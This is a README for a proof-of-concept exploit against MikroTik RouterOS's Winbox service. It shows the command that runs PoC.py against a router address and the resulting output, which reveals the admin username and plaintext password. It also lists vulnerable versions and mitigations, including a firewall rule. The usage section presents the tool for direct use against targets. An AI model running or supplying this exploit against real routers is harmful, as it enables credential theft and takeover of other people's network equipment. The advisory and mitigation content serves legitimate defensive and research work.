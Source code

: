 # WinboxPoC
Proof of Concept of Winbox Critical Vulnerability

# Blogpost
https://n0p.me/winbox-bug-dissection/


## How to use
Run it :)
```
$ python3 PoC.py 172.17.17.17
172.17.17.17
User: admin
Pass:

User: admin
Pass:

User: admin
Pass: Th3P4ssWord

```
## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation TechniquesMitigation techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

Enjoy!